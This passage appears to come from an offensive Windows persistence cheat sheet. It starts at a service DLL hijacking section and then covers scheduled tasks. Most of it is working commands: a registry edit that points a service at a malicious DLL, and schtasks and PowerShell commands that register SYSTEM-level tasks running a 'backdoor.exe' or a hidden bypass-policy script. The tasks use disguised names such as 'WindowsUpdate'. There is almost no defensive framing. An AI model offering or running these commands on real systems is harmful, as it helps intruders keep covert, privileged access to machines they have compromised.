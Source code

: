 ### 3. Service DLL Hijacking
```cmd
# Modify service to load malicious DLL
reg add "HKLM\SYSTEM\CurrentControlSet\Services\YourService\Parameters" /v "ServiceDll" /t REG_EXPAND_SZ /d "C:\Windows\System32\malicious.dll" /f

# Restart service to load malicious DLL
sc stop "YourService"
sc start "YourService"
```

## Scheduled Tasks Persistence

### 1. Basic Scheduled Task Creation
```cmd
# Create scheduled task that runs at startup
schtasks /create /tn "WindowsUpdate" /tr "C:\Windows\System32\backdoor.exe" /sc onstart /ru "SYSTEM" /f

# Create task that runs every 5 minutes
schtasks /create /tn "SystemMaintenance" /tr "C:\Windows\System32\backdoor.exe" /sc minute /mo 5 /ru "SYSTEM" /f

# Create task that runs at user logon
schtasks /create /tn "UserProfile" /tr "C:\Windows\System32\backdoor.exe" /sc onlogon /ru "SYSTEM" /f
```

### 2. PowerShell Scheduled Tasks
```powershell
# Create scheduled task using PowerShell
$action = New-ScheduledTaskAction -Execute "C:\Windows\System32\backdoor.exe"
$trigger = New-ScheduledTaskTrigger -AtStartup
$principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest
Register-ScheduledTask -TaskName "WindowsSecurityUpdate" -Action $action -Trigger $trigger -Principal $principal

# Create task with multiple triggers
$trigger1 = New-ScheduledTaskTrigger -AtStartup
$trigger2 = New-ScheduledTaskTrigger -AtLogOn
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -ExecutionPolicy Bypass -File C:\Windows\System32\script.ps1"
Register-ScheduledTask -TaskName "SystemMaintenance" -Action $action -Trigger @($trigger1, $trigger2) -RunLevel Highest
```

### 3. Scheduled Task Management
```cmd
# List all scheduled tasks
schtasks /query /fo LIST /v

# Query specific task
schtasks /query /tn "WindowsUpdate" /fo LIST /v

# Delete scheduled task
schtasks /delete /tn "WindowsUpdate" /f

# Modify existing task
schtasks /change /tn "WindowsUpdate" /tr "C:\Windows\System32\newbackdoor.exe"
```
